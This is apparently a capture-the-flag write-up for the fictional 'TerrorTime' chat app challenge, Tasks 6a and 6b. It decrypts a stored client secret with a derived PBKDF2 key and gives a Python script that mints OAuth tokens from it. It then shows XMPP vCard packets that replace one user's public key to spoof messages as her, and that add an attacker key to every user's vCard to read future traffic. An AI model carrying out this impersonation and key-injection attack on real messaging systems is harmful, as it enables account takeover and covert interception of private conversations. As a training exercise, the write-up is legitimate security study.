 # Task 6a - Message Spoofing - (Vulnerability Analysis; Cryptanalysis)

*The ability to masquerade as a TerrorTime user is helpful, even when we are not able to access the plaintext version of their messages. We want to be able to send "spoofed" messages (i.e., messages appearing to be from the user we are masquerading as) to other TerrorTime users as a way of disrupting their attack plans. Critically, any conversation we have as the masqueraded user should never be visible to that user the next time they access their account. But complicating matters is the fact that all messages sent and received through TerrorTime are archived on the chat server and downloaded each time a user logs in to their account. For this task, identify a vulnerability that will allow you to send/receive messages as a TerrorTime user without that user ever seeing those messages the next time they access their account. To prove your solution, submit the encrypted message body of a spoofed message that was sent from the organization leader to a cell leader. Submit the full client id of the cell leader you chose. Put the organization leader's account in a state such that replies to your spoofed message will never be seen by them, but still readable by you.*

## Solution

For this task, we need to find a vulnerability that will allow us to spoof a message as Hannah to Gittel without Hannah being able to see the message.

In order to spoof a message, we need to figure out how messages are encrypted and sent. Taking a look inside of `encryptMessage`, we can see what is going on for the non-obvious parts of the JSON from the message body.

```java
ref_00 = p1.iterator();
while (bVar1 = ref_00.hasNext(), bVar1 != false) {
    ref_01 = ref_00.next();
    checkCast(ref_01,PublicKey);
    pbVar3 = ref_01.getEncoded();
    ref_02 = CryptHelper.computeKeyFingerprint(pbVar3);
    pSVar4 = CryptHelper.wrapKey(ref_01,pOVar2);
    ref_07.put(ref_02,pSVar4);
}
```

There are two of these while loops for two different iterators. The while loop is going through each object as a public key and using it to create a fingerprint and a corresponding wrapped key, used to decrypt a message. If we look at `p1` and `p2` in the caller, these iterators are the sender's public keys and the recipient's public keys. With this, we know that only the sender and receiver can decrypt the key that's needed to decrypt the actual message. If we are able to manipulate public keys of a sender or receiver, we can choose who is able to read any given message. To figure out how keys are stored, we look at `getPublicKeys`.

```java
ref_00 = ref.getXMPPTCPConnection();
...
ref_00 = ref_02.getJidFromString(jid);
...
pEVar1 = ref_01.asEntityBareJidIfPossible();
pSVar2 = VCardHelper.getPublicKeys(pEVar1);
```

The code refers to user's client IDs as JIDs and uses a VCardHelper object to get the public keys for a JID. vCards, or Virtual Contact Files, are used as an electronic business card and are a standard used in XMPP. From this code, we can see that a user's public keys are stored in their vCard. Since we want to manipulate public keys, we will look at `savePublicKey` and `removePublicKey`. These methods would be ideal for changing someone's vCard. `savePublicKey` is called whenever a user is logged in, however, `removePublicKey` is not called anywhere. While TerrorTime won't be able to remove public keys, a different XMPP client may be able to.

We will use the [Spark](https://www.igniterealtime.org/downloads/index.jsp#spark) client because it can send and receive raw XMPP packets. In order to log in without the app though, we need to generate OAuth tokens and to do that we need to decrypt the client secret from the database. Looking back at `generateSymmetricKey`, we can see how the encryption key for storing data in the database is created.

```java
ref_04 = this.encryptPin;
ref = ref_04.getValue();
...
ref_05 = this.checkPin;
pbVar2 = ref_05.getValue();
...
ref_01 = SecretKeyFactory.getInstance("PBKDF2WithHmacSHA256");
pcVar4 = ref.toCharArray();
ref_06 = new KeySpec(pcVar4,pbVar2,0x2710,0x100);
ref_02 = ref_01.generateSecret(ref_06);
pbVar2 = ref_02.getEncoded();
ref_07 = new SecretKeySpec(pbVar2,"AES");
```

This shows that the app uses PBKDF2 to generate a key which is [recommended]((https://android-developers.googleblog.com/2013/02/using-cryptography-to-store-credentials.html)) by the Android developers blog as the highest security for storing credentials safely. (**Note**: This blog is slightly outdated and now SHA-256/10000 iterations is preferred over SHA-1/1000 iterations.) We can use a [CyberChef recipe](https://gchq.github.io/CyberChef/#recipe=Derive_PBKDF2_key(%7B'option':'UTF8','string':'207698'%7D,256,10000,'SHA256',%7B'option':'Hex','string':'1f86e51f7187772c1c7bb589299162e466f0c99d72abf4a2b04da03e9f70766e'%7D)) in order to generate the AES key and then use that key to decrypt anything in the database.

```
Passphrase: 207698
Key size: 256
Iterations: 10000
Hashing Function: SHA256
Salt: 1f86e51f7187772c1c7bb589299162e466f0c99d72abf4a2b04da03e9f70766e

Output: f25d144f98999dbc195263d031e4678f291f7cab32a32d3756e6dffb1ef097fb
```

Using this key to decrypt the data in the database for `csecret` we get `dKtjzdmMcGaH9I` which is the same length as the client secrets we found in task 1. With this, we can decrypt and encrypt anything for the database. We will now use the client secret to generate OAuth access tokens whenever we want.

```python
# oauth.py

import base64
import requests

token_url = "https://register.terrortime.app/oauth2/token"
client_id = "natalie--vhost-32@terrortime.app"
client_secret = "dKtjzdmMcGaH9I"

headers = {
    "Content-Type": "application/x-www-form-urlencoded",
    "Authorization":"Basic " + base64.b64encode(f"{client_id}:{client_secret}".encode()).decode(),
    "X-Server-Select": "oauth"
}
data = {
    "audience": "",
    "grant_type": "client_credentials",
    "scope": "chat"
}

response = requests.post(token_url, headers=headers, data=data)
access_token = response.json()["access_token"]

print(access_token)
```

Using Hannah's client ID and a generated access token, we can login using Spark. When we are logged in, we can look closely at the packets sent and received. During this, we see the client requesting Hannah's vCard:

```
<iq to="hannah--vhost-32@terrortime.app/Spark" from="hannah--vhost-32@terrortime.app" id="6tcuX-23" type="result">
  <vCard xmlns="vcard-temp">
    <DESC>-----BEGIN PUBLIC KEY-----
MIIBITANBgkqhkiG9w0BAQEFAAOCAQ4AMIIBCQKCAQATr4oiwbLWo7RjAwp/GhI8
9e4BqWryLsBvM8DNqx37zbVITmEYoTPdxxfFUGHIelcT7MPftPsifHVm3eSjrdfr
xkFfJNPOhLTSO+48VEfwe8r1EwWAeD1DnGtAf96pDieGkrQ8RjA96fZFg0TCdLj/
yeV0K35MA0cB8cypYm6zkz4JTOANtV8+navU2gFjBvn28FU+S+XM2Oi/2BGK6ifF
CpPR3v5RzKtcFnMZ9zuqA5nukmANt10AQRecEgtgWQrQmmA07umNiOrWSOCApHl6
MmlJuUbmwo+kdvWlREcJrBCiToZmwTzwEc8AFwtpeMPU2jVerTUmNSwsubRfJlaP
AgMBAAE=
-----END PUBLIC KEY-----
    </DESC>
  </vCard>
</iq>
```

Since vCards are a standard, we can find [documentation](https://xmpp.org/extensions/xep-0054.html#sect-idm46144959876880) to change a vCard. For convenience, we will change Hannah's public key to match Natalie's public key. To update, we send the following packet:

```
<iq id="v2" type="set">
  <vCard xmlns="vcard-temp">
    <DESC>-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA1siJaZbaMsr9ErzcfTdi
L+0NszBs1FIVqXVlV9wRs6lqDnyq2d6+ikP5usk8wf3DB1pLsGbGSDtcnjrf8Ug7
4OAWazuK1d537lKN+rX5bIH/yGmOthBC4Q118UVobNl6c3IIVHuntb9p9C3YvKa0
WYF6HohWtfhQnCqy5cStm9d9aDNp9rxluDFecB8bR6vohFcwGQTHls794Rp4OXID
IJjozx9hBq0vL/al21GCnPu82PBbQ1MvltFbwP3GfKyk+aHfkpeixXindQc4/ntv
6qH45Wvy+aBmEhZfJsZL/ZlM+6kyLwuLMUbYfF6kymUSRfkeQ38djJvVKfY/dtac
4QIDAQAB
-----END PUBLIC KEY-----
    </DESC>
  </vCard>
</iq>
```

Now, until Hannah logs in again, she will not be able to see any new message sent to her or from her account. If we masquerade as Hannah, nothing will change because our public key matches her vCard. We can now send a message to any of the cell leaders and using mitm_relay again, we can see the encrypted body of the message which completes this task.

# Task 6b - Future Message Decryption - (Vulnerability Analysis; Cryptanalysis)

*Though we might be unable to decrypt messages sent and received in the past without a user's private key, it may still be possible to view future messages in the clear. For this task generate a new public/private key pair and make whatever changes are necessary such that all future messages sent/received within TerrorTime may be decrypted with this private key. Critically, you can not disrupt future legitimate conversations between users.*

## Solution

For this task, we need to find a vulnerability that will allow us to decrypt any future message sent/received using TerrorTime.

This task takes advantage of the same vulnerability as task 6a - we are able to manipulate the vCard for any user. Instead of removing public keys from a vCard, we are adding a new public key that we control to everyone's vCard. This works since the vCards support multiple public keys. First we will generate a new key pair:

```
$ openssl genrsa -des3 -out private.pem 2048
Generating RSA private key, 2048 bit long modulus (2 primes)
.............................................................+++++
.........................................................................+++++
e is 65537 (0x010001)
Enter pass phrase for private.pem:
Verifying - Enter pass phrase for private.pem:
$ openssl rsa -in private.pem -outform PEM -pubout -out public.pem
Enter pass phrase for private.pem:
writing RSA key
$ openssl rsa -in private.pem -out private_unencrypted.pem -outform PEM
```

In the database, we change the public key to our newly generated `public.pem`. When we login as a user, our new public key will get added to their vCard automatically. To complete this task, we login as every user discovered in task 5. Since we have the associated private key, we would now be able to view any future messages. To complete the task, we submit our public and private key.
